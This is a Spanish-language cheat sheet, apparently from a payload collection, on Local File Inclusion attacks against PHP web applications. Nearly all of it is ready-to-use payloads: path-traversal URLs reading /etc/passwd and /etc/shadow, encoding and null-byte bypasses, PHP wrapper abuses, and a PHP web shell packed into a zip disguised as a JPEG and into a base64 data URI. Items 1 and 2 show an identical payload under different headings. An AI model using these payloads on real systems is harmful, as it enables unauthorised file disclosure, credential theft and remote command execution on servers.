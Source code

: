 # Local File Inclusion (LFI)

La inclusión de archivos locales es una técnica de ataque en la que los atacantes engañan a una aplicación web para que ejecute o exponga archivos en un servidor web. 


Se puede encontrar en cualquier extremo que incluya un archivo de un servidor web. Por ejemplo, /index.php?page=index.html

# Explotando

1 - Carga útil básica

    http://example.com/index.php?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
    
2 - Codificación de URL

    http://example.com/index.php?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

3 - Codificación doble 

    http://example.com/index.php?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd
    
4 - Codificación UTF-8

    http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
    
5 - Uso de null byte (%00)

    http://example.com/index.php?page=../../../etc/passwd%00
    
6 - Desde una carpeta existente

    http://example.com/index.php?page=scripts/../../../../../etc/passwd
    
7 - Usando PHP Wrappers: filter

    http://example.com/index.php?page=php://filter/read=string.rot13/resource=config.php
    http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
    
8 - Usando PHP Wrappers: zlib

    http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/shadow
    
9 - Usando PHP Wrappers: zip

    echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
    zip payload.zip payload.php;
    mv payload.zip shell.jpg;
    rm payload.php

    http://example.com/index.php?page=zip://shell.jpg%23payload.php
    
10 - Usando PHP Wrappers: data

    http://example.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
    
11 - Usando PHP Wrappers: expect

    http://example.com/index.php?page=expect://ls
    
12 - Usando PHP Wrappers: input

    POST /index.php?page=php://input&cmd=ls HTTP/1.1
    Host: example.com
    ...

    <?php echo shell_exec($_GET['cmd']); ?>
    
13 - Algunos Bypassing

    http://example.com/index.php?page=....//....//etc/passwd
    http://example.com/index.php?page=..///////..////..//////etc/passwd
    http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
    http://example.com/index.php?page=/.%2e/.%2e/.%2e/.%2e/etc/passwd
    http://example.com/index.php?page=/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
